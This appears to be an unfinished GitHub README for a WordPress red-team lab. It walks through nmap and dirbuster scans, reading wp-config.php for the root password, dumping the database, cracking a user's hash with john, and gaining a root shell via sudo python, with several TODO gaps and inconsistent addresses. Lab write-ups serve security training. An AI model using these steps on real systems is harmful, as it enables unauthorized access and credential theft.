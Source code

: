 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used: 
![TODO: Identify the exploit used.]
![TODO: Include the command run.]
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
![TODO:] exposed root password and then uncovered hashes via mysql
![TODO:] mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
- john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
- ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag2.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.


